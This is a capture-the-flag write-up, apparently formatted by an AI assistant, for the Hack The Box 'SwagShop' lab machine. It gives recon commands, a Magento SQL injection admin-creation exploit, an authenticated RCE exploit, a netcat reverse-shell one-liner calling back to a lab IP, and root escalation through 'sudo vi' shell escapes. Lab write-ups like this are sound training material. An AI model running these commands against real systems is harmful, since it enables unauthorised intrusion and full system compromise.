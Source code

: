 # 🧢 HTB: SwagShop
[Done](Done)
## 📌 Box Info
- Platform [HTB](HTB)
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- **Initial Access**: Magento authentication bypass + RCE
- **Privilege Escalation**: `sudo vi` file escape

---

## 🔍 Recon

### 🔎 Full Port Scan
```bash
nmap -sT -p- --min-rate 10000 -oA shagshop_basic 10.10.10.140
```

### 🔎 Script & Version Scan
```bash
nmap -sCV -p 80,22 -oA swagshop_scv 10.10.10.140
```

---

## 📂 Web Enumeration

### 🔍 Directory Brute Force
```bash
gobuster dir -u http://10.10.10.140 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50 -x php
```

---

## 🐚 Shell as www-data

### 👤 Add Admin via [Shoplift Exploit](https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/poc.py)
```bash
python poc.py 10.10.10.140
# Result: ypwq:123 added as admin
```

### 🔓 Login to Admin Panel
Navigate to:
```
http://10.10.10.140/index.php/admin
```

### 🧪 RCE #1 – PHP Object Injection

#### 📦 Retrieve Magento Install Date
```bash
curl -s http://10.10.10.140/app/etc/local.xml | grep date
```

#### 💣 Download Authenticated RCE Exploit
```bash
searchsploit -m exploits/php/webapps/37811.py
mv 37811.py magento_rce.py
```

#### ⚙️ Configure Exploit
Edit `magento_rce.py`:
```python
username = 'ypwq'
password = '123'
php_function = 'system'
install_date = 'Wed, 08 May 2019 07:23:09 +0000'
```

#### ▶️ Execute Command
```bash
python magento_rce.py 'http://10.10.10.140/index.php/admin' "uname -a"
```

## ⚡ Get Reverse Shell

### 🧬 Reverse Shell Payload
```bash
python magento_rce.py 'http://swagshop.htb/index.php/admin' \
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9001 >/tmp/f"
```

### 📡 Catch Shell
```bash
nc -lnvp 9001
```

---

## 🔼 Privilege Escalation (www-data → root)

### 📟 Upgrade Shell
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo
fg
reset
# Enter: screen
export TERM=screen
```

### 🔍 Check Sudo Permissions
```bash
sudo -l
```

> Output:
```
(root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

---

## 👑 Root Access

### 📖 Read Flag via `vi`
```bash
sudo /usr/bin/vi /var/www/html/../../../root/root.txt
```

### 🐚 Get Root Shell via vi
```bash
sudo /usr/bin/vi /var/www/html/a

# Inside vi:
:set shell=/bin/bash
:shell
```

Or run directly from command line:
```bash
sudo vi /var/www/html/a -c ':!/bin/sh'
```

---

Let me know if you'd like this saved as a reusable template or combined with your other write-ups!